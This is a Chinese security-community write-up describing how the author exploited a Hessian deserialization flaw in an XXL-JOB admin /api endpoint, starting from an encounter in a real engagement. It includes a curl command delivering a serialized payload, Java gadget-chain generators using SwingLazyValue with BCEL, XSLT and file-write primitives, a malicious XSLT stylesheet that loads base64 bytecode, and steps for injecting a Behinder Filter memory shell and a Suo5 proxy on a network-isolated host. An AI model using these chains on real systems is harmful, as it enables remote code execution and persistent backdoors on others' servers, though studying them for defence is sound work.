# 奇安信攻防社区-【Web实战】 记一次曲折的XXL-JOB API Hessian反序列化到Getshell

### 【Web实战】 记一次曲折的XXL-JOB API Hessian反序列化到Getshell

一个由Hessian API引发的getshell

# 前言

我们经常在CTF里见到Java反序列化的题，而如何从CTF过渡到实战中是一个坎儿，今天就说一次在实战中遇到的不出网Hessian反序列化问题。

> 文章所有内容无敏感信息，均为本地环境，只做思路分享。

# 一、启

  
最初就是实战中发现一个XXL-JOB任务调度器，尝试了几番爆破无果后本来打算放弃了的，但是想到之前XXL-JOB爆出过一个Hessian反序列化的漏洞，就试探性的访问了一下`/api`接口，结果不出所料

  
（图中很多很奇怪的Filter名称不需要在意，这是我打的内存马的名字，我们一步步道来)

# 二、承

看到这一步我就豁然开朗，试探性的用了网上所说的Gadget去打了一波JNDI注入的链子，过程如下  
起一个恶意的JNDI服务先,然后用marshallsec去构造gadgets

  
然后发送payload

```php
curl -XPOST -H "Content-Type: x-application/hessian" --data-binary @test.ser http://xxx:8080/xxl-job-admin/api
```

  
  
这里不用vps发包是因为我vps被ban了- -  
可以看到是触发了lookup的，但是不出网，那怎么办呢？办法就只有一个了，那就是手打内存马

# 三、转

那我们就需要对源码进行分析，首先先去官网把漏洞版本的xxl-job下载下来看一下。



整体是基于springboot服务的，所以打内存马的话，我们只需要挑选一个Tomcat的Filter内存马即可，这里有2个问题

-   第一个就是为什么不打springboot内存马

这是因为Springboot的interceptor本质上就是Filter，但是从优先级来看Filter是更高的，而在xxl-job实际上是有几个默认的interceptor的，所以优先级不够。



-   为什么只能是Filter内存马

鉴于上面说的默认interceptor，xxl-job内置有登录鉴权的interceptor，所以注入controller型的内存马，会因为优先级的问题而失效  
那么我们最终就选择使用JMG工具生成一个冰蝎的Tomcat Filter内存马，JMG这款工具生成的内存马兼容性很强，比较推荐使用  
[https://github.com/pen4uin/java-memshell-generator-release](https://github.com/pen4uin/java-memshell-generator-release)

  
这样我们就得到了内存马的base64字节码了。我们怎么进行测试呢，github有maven项目源码，我们在help路由处对这个字节码进行加载。

  
咱们访问一下help路由  
  
访问两次出现这个就是注入成功了，因为打2次第二次会显示已存在，我们冰蝎连接试一下。



  
显然我们是注入成功了。

# 四、再转

那么我们的问题就来到了Gadgets上面，假如对nacos的raft反序列化熟悉的小伙伴应该不会缺链子，这里一开始是有很多种思路的

-   JackSon反序列化
-   BCEL字节码加载
-   XSLT文件加载

## 1、Jackson

首先说到jackson，在AliyunCTF上爆出来的gadgets让绝大多数springframework都受到影响，因为他们都有Jackson依赖，可以打getter。但是在这个环境下版本过高，jackson无法利用

  
版本达到了2.8，在这个版本，BaseJsonNode可以触发getter的toString方法被移除了

  
因此无法继续利用

## 2、BCEL

在TCTF2022中出现了一个叫做Hessian-Onlyjdk的题，这个题的影响程度很高，不仅仅是在CTF更是在Realworld，他提供了一种JDK8原生的hessian gadgets，利用SwingLazyValue可以触发任意类的静态方法。  
EXP

```java
public class HessianSwingLVBCEL {
    public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        String bcelStr = SerializeUtils.makeBcelStr(BcelRCE.class);
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.bcel.internal.util.JavaWrapper", "_main", new Object[]{new String[]{bcelStr,"s"}}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        SerializeUtils.HessianDeserial(SerializeUtils.HessianTostringSerial(pkcs9Attributes));
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();
    }
}
```

```java
package com.javasec.pocs.rce;

import java.io.IOException;

public class BcelRCE {
    public static void _main(String[] argv) throws Exception {
        Runtime.getRuntime().exec("cmd");
    }
    public static void main(String[] args) {

    }
}
```

这里用到了`com.sun.org.apache.bcel.internal.util.JavaWrapper`这个类的`_main`静态方法，在方法内部可以加载BCEL字节码，会加载恶意类的`_main`方法。但是问题是，BCEL打内存马需要全反射的形式调用，Bcel类加载器不会加载springframework下的依赖，会抛出`ClassNotDefinded`的异常，它只能加载jdk包下的原生类，这一点就是一个限制，所以这里假如目标出网可以用这条gadgets，比较方便。

## 3、XSLT

在nacos的raft反序列化里出现过这条链子

```java
public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.xalan.internal.xslt.Process", "_main", new Object[]{new String[]{"-XT", "-XSL", "E:\\payload.xslt"}}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();

    }
}
```

该gadgets可在jdk8通杀，这是一条高可用的payload，用到了`com.sun.org.apache.xalan.internal.xslt.Process`的\_main方法去加载恶意的xslt文件，我们可以在xslt文件内部执行任意语句，并且不受限。

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"                xmlns:b64="http://xml.apache.org/xalan/java/sun.misc.BASE64Decoder"                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"                xmlns:th="http://xml.apache.org/xalan/java/java.lang.Thread"                xmlns:ru="http://xml.apache.org/xalan/java/org.springframework.cglib.core.ReflectUtils">
<xsl:template match="/">
<xsl:variable name="bs" select="b64:decodeBuffer(b64:new(),'base64')"/>
<xsl:variable name="cl" select="th:getContextClassLoader(th:currentThread())"/>
<xsl:variable name="rce" select="ru:defineClass('classname',$bs,$cl)"/>
<xsl:value-of select="$rce"/>
</xsl:template>
</xsl:stylesheet>
```

文件内容如上，加载恶意类，也就是内存马。那么为了加载xslt，我们还需要有一个payload去写入恶意的xslt，用到的gadgets还是一样的。

```java
package com.javasec.pocs.hessian;
import com.caucho.hessian.io.Hessian2Output;
import com.javasec.utils.SerializeUtils;
import sun.security.pkcs.PKCS9Attribute;
import sun.security.pkcs.PKCS9Attributes;
import sun.swing.SwingLazyValue;

import javax.swing.*;
import java.io.FileOutputStream;

public class HessianProxyLVFileWrite {
    public static void main(String[] args) throws Exception {
        //Pkcs9可以换成MimeTypeParameterList
        PKCS9Attributes pkcs9Attributes = SerializeUtils.createWithoutConstructor(PKCS9Attributes.class);
        UIDefaults uiDefaults = new UIDefaults();
        //PKCS9Attribute.EMAIL_ADDRESS_OID 是固定的，调试流程可以看到逻辑
        //去修改需要读取的文件，和写入的文件名，实例中是读取1.txt写入pwned.txt
        uiDefaults.put(PKCS9Attribute.EMAIL_ADDRESS_OID, new SwingLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils", "writeBytesToFilename", new Object[]{"/tmp/1.xslt",SerializeUtils.getFileBytes("E:\\payload.xslt")}));
        SerializeUtils.setFieldValue(pkcs9Attributes,"attributes",uiDefaults);
        FileOutputStream fileOut = new FileOutputStream("poc.ser");
        Hessian2Output out = new Hessian2Output(fileOut);
        fileOut.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(pkcs9Attributes);
        out.close();
        fileOut.close();
    }
}
```

这里选用JavaUtils的writeBytesTofilename即可。

# 五、合

确认了Gadgets和内存马后，我们就可以直接打两次poc了。  
这里就以本机为例子，看看curl指令的结果。

  
第一发是写入payload



  
成功写入，第二发就是去加载xslt文件

  
之后就可以像上面一样去连接冰蝎或者哥斯拉了。

# 六、不出网渗透

这里目标经过测试是做了nginx的反向代理和负载均匀的，只能访问指定的目的ip  
因为涉及敏感信息，这里就不放出截图了，大概的nginx配置如下

```nginx
upstream xxl-job{
  server xxx.xxxx.xxx.xxx2:xxx
  server xxx.xxx.xxx.xxx1:xxx
}
```

在这里ICMP和DNS和TCP均不出网，这种情况下是无法上线c2的，因此我们可以选择正向代理进入，这里可以选择Suo5内存马

  
注入过后测试连接

